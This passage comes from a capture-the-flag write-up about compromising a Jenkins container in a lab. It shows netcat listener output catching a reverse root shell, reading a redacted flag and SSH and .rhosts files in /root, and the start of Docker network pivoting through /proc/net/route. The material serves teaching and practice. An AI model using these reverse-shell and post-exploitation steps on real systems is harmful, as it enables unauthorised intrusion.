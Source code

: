 After starting a `nc` listener and clicking on *Commit Changes*, we get a shell after a minute or two:

```shell
└─$ ncl          
listening on [any] 1337 ...
connect to [10.8.1.246] from (UNKNOWN) [10.10.70.114] 39568
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# 
```

Then we can upgrade and stabilize the shell with [these steps](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#script).

We find the user flag under `/root`:

```shell
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# cd /root
root@5ac6c7d6fb8e:~# ls -la
total 20
drwxr-xr-x 3 root root 4096 May  2 09:43 .
drwxr-xr-x 1 root root 4096 May  9 18:50 ..
lrwxrwxrwx 1 root root    9 May  1 14:37 .bash_history -> /dev/null
-r-------- 1 root root   35 May  1 17:37 .rhosts
drwxr-xr-x 2 root root 4096 May  1 16:05 .ssh
-rw------- 1 root root   37 May  1 14:29 user.txt
root@5ac6c7d6fb8e:~# cat user.txt
VL{<REDACTED>}
```

The `.ssh` folder contains a private key but I couldn't use it to login to the host. The `.rhosts` file will be important later.

## Pivoting from the Jenkins container

The random hex hostname and the presence of the `/.dockerenv` file confirms that we are inside a Docker container.

```shell
root@5ac6c7d6fb8e:~# ls -a /
.  ..  .dockerenv  bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Given the use of Docker networking we can try to enumerate the network further to see if we can reach other containers or the host (our target running Docker) itself. We already know that our current IP address is `172.18.0.3`. Since it's a Docker container many commands like `ip` are not installed, but we can read the information directly from `/proc/net`.

Here's the routing table:

```shell
root@5ac6c7d6fb8e:~# cat /proc/net/route
Iface   Destination     Gateway         Flags   RefCnt  Use     Metric  Mask            MTU     Window  IRTT                                                       
eth0    00000000        010012AC        0003    0       0       0       00000000        0       0       0                                                                               
eth0    000012AC        00000000        0001    0       0       0       0000FFFF        0       0       0
```
